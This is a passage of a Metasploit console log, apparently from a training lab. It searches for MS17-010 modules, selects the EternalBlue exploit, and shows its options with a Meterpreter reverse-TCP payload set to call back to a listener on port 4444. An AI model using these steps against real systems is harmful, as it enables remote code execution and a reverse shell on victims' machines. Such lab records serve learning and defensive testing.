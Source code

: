     Matching Modules
    ================
    
       #  Name                                           Disclosure Date  Rank     Check  Description
       -  ----                                           ---------------  ----     -----  -----------
       0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
       1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
       2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
       3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
       4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
       5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
    
    
    Interact with a module by name or index, for example use 5 or use exploit/windows/smb/smb_doublepulsar_rce
    
    msf5 > use 2
    [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
    
    msf5 exploit(windows/smb/ms17_010_eternalblue) > info
    
    msf5 exploit(windows/smb/ms17_010_eternalblue) > connect 10.10.216.126 8000
    [*] Connected to 10.10.216.126:8000 (via: 0.0.0.0:0)
    whoami
    
    HTTP/1.0 401 Authentication Required
    WWW-Authenticate: Basic realm="Icecast2 Server"
    
    You need to authenticate
    
    msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

    Module options (exploit/windows/smb/ms17_010_eternalblue):
    
       Name           Current Setting  Required  Description
       ----           ---------------  --------  -----------
       RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT          445              yes       The target port (TCP)
       SMBDomain      .                no        (Optional) The Windows domain to use for authentication
       SMBPass                         no        (Optional) The password for the specified username
       SMBUser                         no        (Optional) The username to authenticate as
       VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
       VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.
    
    
    Payload options (windows/x64/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.0.2.15        yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port
    